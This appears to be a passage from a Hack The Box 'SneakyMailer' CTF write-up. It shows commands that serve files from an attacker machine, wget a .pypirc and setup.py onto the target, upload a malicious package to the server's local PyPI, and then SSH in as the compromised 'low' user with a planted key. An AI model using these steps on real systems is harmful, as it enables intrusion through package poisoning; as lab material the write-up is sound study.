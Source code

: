 ![Setup.py](/assets/img/htb/HTB-SneakyMailer/Pivot_Setup.png)

### Install the package
Host the package files on our local machine.  
`>> python -m SimpleHTTPServer`

Upload the files to the sneakymailer server.  
`>> wget 10.10.14.39:8000/.pypirc; chmod 600 .pypirc; wget 10.10.14.28:8000/setup.py`

Register the package on the server.  
`>> HOME=$(pwd); python3 setup.py sdist register -r local upload -r local`

### Authenticate with compromised account
Using the uploaded key, we should be able to SSH into the low account.  
`>> ssh -i key low@10.10.10.197`  
![SSH](/assets/img/htb/HTB-SneakyMailer/Pivot_SSH.png)
